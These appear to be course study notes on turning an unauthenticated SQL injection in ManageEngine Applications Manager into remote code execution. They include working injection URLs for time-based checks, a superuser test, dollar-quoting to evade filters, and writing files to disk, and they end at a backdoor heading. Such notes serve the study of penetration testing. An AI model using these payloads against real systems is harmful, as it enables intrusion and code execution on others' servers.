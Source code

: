## ManageEngine SQLI to RCE
In this module we have demonstrated how to discover an unauthenticated SQL injection vulnerability using source code audit in a Java-based web application.
We then showed how to use time-based blind SQL injection payloads along with stack queries in order to exfiltrate database information.
Finally, we developed an exploit that utilized Postgres User Defined Functions and Large Objects to gain a fully functional reverse shell.
## Vulnerability Discovery
By browsing through the ManageEngine’s Application Manager web interface, we can see that most URLs contain the `.do` extension. `.do` extension is typically used in a URL mapping scheme for **compiled Java code**.
Java web applications use a deployment descriptor file named **`web.xml`** to determine how URLs map to servlets, which URLs require authentication, and other information.
### Source Code Analysis
- Search for SQL queries in the source decompiled code in notepad++ using regx: `^.*?query.*?select.*?` (this expression basically says: Look for any line that begins with any number of alphanumeric characters which is followed by the string `query` which is followed by a number of any characters which is followed by the string `select` which is followed by a number of any characters.)
- To reduce a web app’s attack surface, start with the front-end and review HTTP handlers. In Java servlets, these are easily found by their consistent naming pattern, like **`doGet`** and **`doPost`**.
- Enable PostgreSQL logging from its configuration file `postgresql.conf`, search for the string `log_statement`, uncomment the line then set its value to `all` and **restart the service** to apply the changes. Start inspecting the logs `Get-Content C:\Program Files (x86)\ManageEngine\AppManager12\working\pgsql\data\amdb\pgsql_log\postgresql_13.log -wait -tail 1`
- `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;` by injecting a special character (`;`) into the vulnerable parameter, we can check the logs for any syntax errors to verify if the injection was successful using the following command: `Get-Content postgresql_13.log -tail 100 | Select-String -pattern "syntax error"`
## Exploitation
- PGSQL supports stacked queries `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;select+pg_sleep(10);`
- if the app filters the quotes `'`, PostgreSQL supports `$$` (dollar-quoting) as a replacement for single quotes (`'`) to simplify writing strings that contain literal quotes.
- The attacker tests a SQL injection vulnerability to confirm DBA privileges by using a payload that checks if `current_setting('is_superuser')` returns `"on"`. If true, it triggers a 10-second delay via `pg_sleep(10)`, confirming administrative access. `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+`
- Use SQLI to write to the file system `/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;COPY+(SELECT+$$offsec$$)+to+$$c:\\offsec.txt$$;--+`
- Invistige if any VB scripts are being executed after performaing some action (Creating a Monitor in our case) via ProcMon. If we have ability to write to the file system, we can inject a backdoor into this VB script and it will be executed automatically by the application.
### Crafting the backdoor
